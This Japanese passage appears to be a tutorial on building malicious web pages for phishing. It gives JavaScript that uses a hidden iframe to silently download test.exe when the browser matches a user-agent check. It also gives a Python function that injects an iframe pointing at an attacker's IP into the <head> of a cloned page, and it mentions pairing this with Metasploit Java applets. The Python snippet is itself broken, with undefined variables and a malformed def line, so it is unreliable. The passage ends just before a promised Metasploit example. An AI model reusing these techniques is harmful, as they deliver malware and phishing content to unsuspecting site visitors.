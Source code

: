 　同様のことがJavascriptでも可能です。

```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#javascriptによるUserAAgent制限\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#UserAgentがIEの場合だけtest.exeをダウンロードする

<script>
var downloadURL = function downloadURL(url) {
var hiddenIFrameID = 'hiddenDownloader',
iframe = document.getElementById(hiddenIFrameID);
if (iframe === null) {
iframe = document.createElement('iframe');
iframe.id = hiddenIFrameID;
iframe.style.display = 'none';
document.body.appendChild(iframe);
}
iframe.src = url;
};
var ua = window.navigator.userAgent;
if( ua.indexOf("Mozilla/5.0") != -1 ){
alert(1);
downloadURL('./test.exe');
}
</script>
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
```

　pythonでhtmlを整形する際に、特定のタグ<body>タグなどをreplaceしてしまい
悪意あるコードに書き換えてしまう方法などもあります。使用方法としては、フ
ィッシングページを作成する際に同時にmetasploitで悪意あるJavaアプレットな
どが挿入してしまう方法があります。
　また、下記ではhtml内の特定のタグを書き換える関数です。

```
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#\#\#\#<head>タグにiframeを挿入するサンプル\#\#\#\#
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
def replases(html)
    \#Rewrite the head tag of html
    fileopen=file("/clone/index.html","r").readlines()
    try:   
        line=line.replace("<head>", '<head><iframe src = "http://%s:80/" width="100" height="100" scrolling="no" ></iframe>' % (ipaddr))
        filewrite.write(line)
```

　MetasploitのJava appletの生成も参考程度ですが、以下です。
